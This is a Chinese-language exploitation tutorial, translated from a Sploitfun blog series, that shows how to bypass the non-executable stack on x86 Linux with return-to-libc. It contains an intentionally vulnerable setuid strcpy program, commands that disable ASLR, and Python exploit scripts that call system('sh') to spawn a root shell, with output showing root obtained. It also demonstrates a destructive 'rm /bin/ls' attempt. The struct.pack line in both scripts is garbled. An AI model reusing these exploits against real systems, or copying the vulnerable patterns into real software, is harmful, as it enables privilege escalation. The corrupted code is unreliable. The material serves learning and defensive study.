 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc绕过NX](http://www.csyssec.org/20161231/returntolibc/)》与作者信息：CSysSec出品  


VM Setup: Ubuntu 12.04 (x86)  

在前面的文章中，我们可以了解到，攻击者可以：  

将shellcode拷贝到栈中，再跳转到shellcode  
来达到成功利用漏洞代码的目的。 

因此，为了阻止攻击者的行为，安全研究人员开始利用“NX”比特位来缓解漏洞利用方法(exploit mitigation)。  

## 什么是NX比特位

这种漏洞利用缓解方法将指定内存区域设置为不可执行，并将可执行的区域设置为不可写。举个例子：数据段、栈和堆设置为不可执行，text段设置为不可写。  

设置NX位后，经典的栈缓冲区溢出无法利用其漏洞。那是因为，在经典的方法中，shellcode被拷贝到栈中，返回地址指向shellcode。然而，现在的情况是栈被设置位不可执行，漏洞利用(exploit)就会失败。 当然，这种缓解(mitigation)技术也不是完全安全的，这篇文章就来看看我们是如何绕过NX比特位的!!!  

漏洞代码： 下面这份代码基于前文中漏洞代码作了一点修改。我会在后文中讲述修改的必要性。  

``` c
 //vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```
编译命令: 

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
注意: “-z exexstack”参数并没有传递给gcc,因此这时栈是不可执行的(Non eXecutable)，可以通过下述方法来验证：  

``` bash
$ readelf -l vuln
...
Program Headers:
 Type      Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
 PHDR      0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
 INTERP    0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
 [Requesting program interpreter: /lib/ld-linux.so.2]
 LOAD      0x000000 0x08048000 0x08048000 0x00678 0x00678 R E 0x1000
 LOAD      0x000f14 0x08049f14 0x08049f14 0x00108 0x00118 RW 0x1000
 DYNAMIC   0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW 0x4
 NOTE      0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
 ...
 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
 GNU_RELRO 0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R 0x1
$
```
栈中只有RW标志位，并没有E标志位！ 

## 如何绕过NX比特位做到任意代码执行  

可以通过“return-to-libc”技术来绕过NX比特位。这里，返回地址被一种特殊的libc函数地址(而不是含有shellcode代码的栈地址)覆盖。举个例子，如果攻击者想触发一个shell, 他会利用system()地址来覆盖返回地址并设置好system()在栈中需要的必要参数，以便能成功调用system()。  

之前我们已经反汇编并画出了漏洞代码的栈布局。现在开始写个漏洞利用代码来绕过NX比特位吧！  

漏洞利用代码

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from cat /proc//maps)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")
system = 0xb7e61060        #0xb7e2000+0x0003f060
exit = 0xb7e54be0          #0xb7e2000+0x00032be0
#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0x804827d     #(obtained from hexdump output of the binary)
#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用代码，可以得到一个具有root权限的shell,如下图所示：  

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K��}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
太棒了，我们拿到了root shell! 但在实际应用程序中，root setuid 程序设置了最低权限准则，获取root shell并没那么容易！  

## 什么是最低权限准则

这种技术允许root setuid程序只有在需要的情况下才能获取root权限。也就是说，在需要时，root setuid程序拿到root 权限，不需要时就会丢弃已获取的权限。root setuid一般会在接收用户输入之前会丢弃root权限。因此，尽管用户输入是恶意的，攻击者也无法后去root shell。 举个例子，下面的漏洞代码不允许攻击者获取root shell。  

``` c
//vuln_priv.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
对于上述漏洞程序，当我们执行下面的漏洞利用代码时，无法获取root shell。  

``` python
#exp_priv.py
#!/usr/bin/env python
import struct
from subprocess import call
system = 0xb7e61060
exit = 0xb7e54be0
system_arg = 0x804829d
#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)
print "Calling vulnerable program"
call(["./vuln_priv", buf])
```
注意:exp_priv.py对exp.py稍作了一点修改！仅仅调整了system_arg变量  

``` bash
$ python exp_priv.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K川�
$ id
uid=1000(sploitfun) gid=1000(sploitfun) egid=0(root) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ rm /bin/ls
rm: remove write-protected regular file `/bin/ls'? y
rm: cannot remove `/bin/ls': Permission denied
$ exit
$
```
到这里就完事了吗？那该如何对应用最低权限准则的root setuid程序进行漏洞利用呢？  

## root setuid程序漏洞利用

针对漏洞代码(vuln_priv)，漏洞利用程序(exp_priv.py)调用system()再紧接着调用exit()还不足以获取root shell。 但如果能修改一下漏洞利用程序(exp_priv.py)，以下面的顺序调用libc函数：  
```
setuid(0)
system(“sh”)
exit()
```
这样一来我们就能获取root shell。 这种技术叫做return-to-libc链接(chaining)，将会在下一篇中讨论。 